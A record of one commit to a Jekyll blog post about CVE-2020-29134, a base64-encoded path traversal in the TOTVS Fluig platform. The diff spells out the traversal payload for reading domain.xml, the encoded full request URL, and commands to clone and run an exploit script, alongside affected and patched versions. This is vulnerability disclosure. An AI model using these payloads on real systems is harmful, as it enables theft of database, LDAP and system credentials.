

Before and after one commit to Ls4ss/blog, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 1014 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; before the commit the page ends 1577 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-03-04-CVE-2020–29134-Totvs-Fluig-Platform.md

```diff
--- a/_posts/2021-03-04-CVE-2020–29134-Totvs-Fluig-Platform.md
+++ b/_posts/2021-03-04-CVE-2020–29134-Totvs-Fluig-Platform.md
@@ -5,35 +5,54 @@
 categories: CVE
 ---
 
-#Fluig Platform
+# Totvs Fluig Platform
 
-Fluig is the productivity and collaboration platform that integrates with the ERP system,
-and your company’s other systems to revolutionize the way you and your team work.
+     Fluig is the productivity and collaboration platform that integrates with the ERP system,
+     and your company's other systems to revolutionize the way you and your team work.
 
-#CVE-2020–29134
+# CVE-2020-29134
 
-TOTVS Fluig Plataform allows directory traversal via parameter encoded in base64
-When exploited, this vulnerability allows the reading of sensitive XML files,
-which contain data to access the database and, in some cases, LDAP connections and ERP integrations.
-Building Payload
+     The TOTVS Fluig platform allows path traversal via parameter encoded in base64.
+     When exploited, this vulnerability allows the reading of sensitive XML files, which contain
+     data to access the database and, in some cases, LDAP connections and ERP system integrations.
+     In addition, it is also possible to explore system files, such as /etc/passwd and /root/.bash_history
 
-{FOTO}
+#### Versions affecteds
+    --
+    <== Fluig Lake 1.7.0
+    <== Fluig 1.6.5
+    <== Fluig 1.6.4
+    ...
+#### Patched versions
+     Fluig Lake 1.7.0-210303 (Patched)
+     Fluig 1.6.5-210308 (Patched)
+     Fluig 1.6.4-210308 (Patched)
 
-#Attack Vector
+# Building Payload
 
-http://fluig.host.com/volume/stream/Rmx1aWc=/
-Path traversal plain text
-?t=1&file=../../../../../../../../fluig/appserver/domain/configuration/domain.xml
-Path traversal encoded base64
-P3Q9MSZmaWxlPS4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2ZsdWlnL2FwcHNlcnZlci9kb21haW4vY29uZmlndXJhdGlvbi9kb21haW4ueG1s
-Payload
-http://fluig.host.com/volume/stream/Rmx1aWc=/P3Q9MSZmaWxlPS4uLy4uLy4uLy4uLy4uLy4uLy4uLy4uL2ZsdWlnL2FwcHNlcnZlci9kb21haW4vY29uZmlndXJhdGlvbi9kb21haW4ueG1s
+![alt text](https://raw.githubusercontent.com/lucxssouza/CVE-2020-29134/main/Payload-Parameter.png?raw=true)
 
-Exploit
-Clone Repository
-git clone https://github.com/lucxssouza/CVE-2020-29134.git
-cd CVE-2020–29134
-chmod +x xfluig.sh
-Usage
-Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)
-Ex2: ./xfluig.sh http://fluig.host.com:PORT
+#### Attack Vector
+     http://fluig.host.com/volume/stream/Rmx1aWc=/
+#### Path traversal plain text
+     ?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml
+#### Path traversal encoded base64
+     P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
+#### Payload
+     http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
+
+#### Exploit-DB reference
+     https://www.exploit-db.com/exploits/49622
+
+
+# Clone Repository
+
+     # git clone https://github.com/lucxssouza/CVE-2020-29134.git
+     # cd CVE-2020-29134
+     # chmod +x xfluig.sh
+
+# Usage
+
+     Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)
+
+     Ex2: ./xfluig.sh http://fluig.host.com:PORT
```
